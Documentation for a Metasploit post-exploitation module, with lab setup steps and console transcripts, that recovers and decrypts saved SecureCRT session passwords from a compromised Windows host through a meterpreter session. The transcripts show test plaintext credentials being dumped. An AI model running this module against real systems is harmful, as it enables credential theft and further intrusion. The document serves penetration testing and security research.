 ## Vulnerable Application

All [SecureCRT](https://www.vandyke.com/cgi-bin/releases.php?product=securecrt) installations are affected, regardless
of which OS they are installed on, since they all use the same encryption mechanisms described by HyperSine in
his [GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).
Note that at the moment this module only supports exploiting Windows machines.

### Overview
All versions of SecureCRT have an option to allow users to store an encrypted copy of their session information on the
local computer, allowing them to easily restart a session without having to reenter all the connection details such as
the host, username, and password. These details are stored in a local session file, and SecureCRT will additionally
encrypt the password with AES encryption.

Unfortunately for SecureCRT users, the encryption mechanism used uses a weak IV of all 0's, and the encryption
keys that are utilized to encrypt the passwords have been publicly reversed and documented by HyperSine
in [his GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

In addition, HyperSine also published a PoC script that allows users to decrypt SecureCRT session files, regardless
of the version of SecureCRT installed. The only limitation is that users must know the SecureCRT configuration password
if one was set at installation. At the time of writing, September 11, 2020, it appears that Vandyke, the creators of
SecureCRT, have still not changed the implementation details for this session encryption algorithm.

This module ports the work from HyperSine and implements it in a Metasploit module that allows users to easily retrieve
any SecureCRT session files from a compromised Windows machine and then decrypt the session passwords where its possible
to do so. All session information retrieved will be stored a Metasploit loot file, along with the password if
it can be decrypted.

### Setup Steps

1. Download the latest installer of SecureCRT from https://www.vandyke.com/cgi-bin/releases.php?product=securecrt.
   You will need a valid login, which can be obtained by completing the registration form at
   https://www.vandyke.com/cgi-bin/download_application.php?pid=scrt_x64_873&force=1, after which an
   email will be sent to you with the valid login details.
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start SecureCRT. A prompt will appear asking if one wants to set a
   configuration passphrase to encrypt sensitive data such as saved passwords and login actions. Set a
   passphrase of your choice here, but be sure to remember it.
4. Set up a SSH server on your target. For Windows 10 v1809 and later and
   Windows Server 2019 and later, this can be done by running the PowerShell
   command `Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`,
   followed by `Start-Service sshd`.

## Verification Steps

  1. Use SecureCRT to login to a SSH server of your choosing. When logging in,
     remember to select the check boxes to save the username (should be selected
     by default), as well as the checkbox to save the account password.
  3. Get a `meterpreter` session on the Windows host running SecureCRT.
  4. Do: `run post/windows/gather/credentials/securecrt`
  5. Optional: Run `set PASSPHRASE *SecureCRT configuration passphrase*` if a configuration
     passphrase was set for SecureCRT and you are aware of what its value is.
  5. If the session file was saved on the target, the module will print out the details
     of the host and port that the user connected to, as well as which username the user
     signed in with and the plaintext version of the password that was used.

## Options

### PASSPHRASE
The configuration password that was set when SecureCRT was installed, if one was supplied.
Note that if this value is not supplied and SecureCRT was set up to use a configuration password,
it will not be possible to decrypt the encrypted SecureCRT passwords that are retrieved.

## Scenarios

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > set Passphrase whatabadpassword
Passphrase => whatabadpassword
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\normal\AppData\Roaming\VanDyke\Config\Sessions
SecureCRT Sessions
==================

Filename           Protocol  Hostname   Port  Username              Password
--------           --------  --------   ----  --------              --------
127.0.0.1 (1).ini  telnet    127.0.0.1  23    RAPID7\Administrator  thePassword123!
127.0.0.1 (2).ini  ssh2      127.0.0.1  22    Administrator         thePassword123!
127.0.0.1 (3).ini  ssh2      127.0.0.1  22    Administrator
127.0.0.1.ini      telnet    127.0.0.1  23

msf6 post(windows/gather/credentials/securecrt) >
```

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled, But No Password Provided)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] It seems the user set a configuration password when installing SecureCRT!
[-] If you know the configuration password, please provide it via the PASSPHRASE option and then run the module again.
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125521_default_172.20.150.24_host.securecrt_s_951139.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/securecrt) >
```
